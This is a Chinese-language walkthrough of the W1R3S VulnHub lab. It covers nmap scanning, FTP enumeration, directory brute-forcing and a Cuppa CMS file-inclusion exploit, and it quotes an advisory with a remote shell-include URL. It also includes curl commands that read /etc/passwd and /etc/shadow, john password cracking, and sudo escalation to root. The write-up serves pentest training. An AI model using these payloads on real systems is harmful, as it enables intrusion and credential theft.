


# W1R3S考察知识

- nmap的基本使用
- 目录爆破工具的使用
- CMS漏洞的利用
- Linux用户的简单提权


# W1R3S靶场搭建

W1R3S靶场下载地址: https://download.vulnhub.com/w1r3s/w1r3s.v1.0.1.zip

将下载的虚拟机文件放到VMware中打开运行即可

	


# 渗透步骤

## 信息收集	

### 1.存活主机发现

扫描C段存活主机: `nmap -sn 192.168.47.0/24` , 确定W13RS的靶机IP为`192.168.47.154`

	


### 2.端口扫描

扫描`192.168.47.154`的开放端口, 分别使用TCP和UDP扫描, 这样做的目的是——运维人员可能会忘记对udp端口做安全防护

扫描结果显示目标主机开放了`21`、`22`、`3306`端口

> Tip: 在真实的渗透环境过程中, 应该使用nmap进行两次扫描来保证准确性
>

```
nmap --min-rate 10000 -p- 192.168.47.154 #nmap默认使用TCP扫描
nmap -sU -p21,22,80,3306 192.168.47.154 
```

	

	


使用nmap自带的web漏扫脚本进行扫描

```
nmap --script=vuln -p21,22,80,3306 192.168.47.154
```


### 3.FTP服务器渗透

尝试使用匿名用户`anonymous`登录目标主机的FTP服务器, 匿名用户的密码默认为空

	


收集FTP服务器的文件信息, 可使用`mget`命令远程下载FTP服务器文件

> Tip: 由于此处远程下载的目标文件均为txt文件, 所以在下载传输的过程中文件是不会损坏的, 若下载的文件为可执行文件或其他二进制文件, 那么需要先执行`binary`再使用`mget`命令下载文件				

	

		

	


### 4.分析目标文件

从Ftp服务器下载的文件有: `01.txt`、`02.txt`、`03.txt`、`employee-names.txt`、`worktodo.txt`

	


查看`01.txt`, 其文件内容意思是:"为W1R3S准备的新的FTP服务器", 属于无效信息

	


查看`02.txt`, 文件内容是两段加密后的字符串,如果你有经验的话, 一眼就能够识别这两段字符串分别采用的是MD5加密和Base64加密

> MD5加密字符串通常是由32位或16位的16进制字符所组成, Base64加密字符最后面接等号

						


也可以使用`hash-identifier`命令来识别字符串的加密形式, 下图已经识别出第一段字符串采用的是md5加密

		


对MD5加密后的字符串进行解密, 这里推荐一个MD5解密网站: https://hashes.com/, MD5解密后的结果为: `This is not a password`, 意思是"这不是一个密码", 属于无效信息

	


对base64字符串进行解密: `echo "SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==" | base64 -d`, 解密后的内容为"lt is easy, but not that easy", 意思是"这是简单的, 但不是那个简单", 字面意思有点模拟两可, 属于无效信息



​	

查看`03.txt`文件, 输出一段艺术字体, 信息量很小


查看`employee-names.txt`文件, 从内容上看是应该是员工信息, 排版位员工名字对应所在部门

	


查看`worktodo.txt`, 文件内容是一段倒置过来的字符串

	


此处推荐一个处理文本倒置的在线网站:https://www.upsidedowntext.com/, 经过处理后得到的文本信息分别是"I don't thınk this is the way to root!"和"we have a lot of work to do, stop playing around", 整段意思是"我不认为这是得到root权限的一种方式, 我们有很多工作要去做, 停止在这里乱搞", 简单来说此处啥都搞不了, 要从其他地方入手

	

	

​		

## web渗透

### 1.目录爆破

使用dirsearch工具对目标主机80端口的web服务进行目录爆破, 爆出两个可疑目录`/administrator`和`/wordpress`, 看到wordpress心里就有底了, 因为这个框架很多漏洞

```
python3 dirsearch.py -u http://192.168.47.154 -x 403
```

	


### 2.尝试安装漏洞

访问下administrator目录, 此处疑似安装漏洞


安装网站失败, 提示没有Administrator权限, 那么此处先放弃


### 3.识别cms搜索漏洞

从网站的标题可以看出是该网站的cms为Cuppa, 也可以使用`whatweb`命令查询


使用searchsploit命令查询Cuppa cms是否存在漏洞: `searchsploit cuppa cms`

发现存在一处漏洞, 漏洞详情保存在25971.txt中, 将其导出来: `searchsploit cuppa cms -m 25971.txt`


	


查看漏洞详情得知, 该cms可通过文件包含漏洞读取任意文件, 我们选取其中一个payload: `http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`来试试

```
┌──(root㉿kali)-[~/桌面/dirsearch]
└─# cat 25971.txt           
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /
 (________(
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22:
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------


#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "Db@dmin";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        }
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################                                                                                              
```


### 4.文件包含漏洞读取任意文件

浏览器访问:`http://192.168.47.154/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, 没有回显, 此处用的是Get请求, 后面尝试下POST请求

	


使用curl命令提交Post请求: `curl -X POST -d urlConfig=../../../../../../../../../etc/passwd http://192.168.47.154/administrator/alerts/alertConfigField.php`, 成功得到目标主机的passwd文件内容

	


获取目标主机的shadow文件: `curl -X POST -d urlConfig=../../../../../../../../../etc/shadow http://192.168.47.154/administrator/alerts/alertConfigField.php`, 这里可以看到两处很明显的用户信息


### 5.`john`破解密码文件

将shadow文件内容复制到hash.txt中, 然后使用john命令进行破解: `john hash.txt`

破解后可知两个用户登录口令, 分别是`www-data/www-data`和`w1r32/computer`

> 此处有个巨坑, john命令无法再次解密同一个文件, 需要执行命令`rm -r /root/.john/john.pot`删除john.pot文件才能再次解密,(john.pot存放解密过的字符串)


### 6.ssh远程登录提权

使用ssh命令登录w1r3s用户: `ssh w1r3s@192.168.47.154` 


查看当前用户的权限:`sudo -l`, 可以发现是全权限


​	

既然是全权限, 可以直接执行`sudo su`获取root用户权限,随后获取root根目录下的flag.txt文件	

	

​	


​					
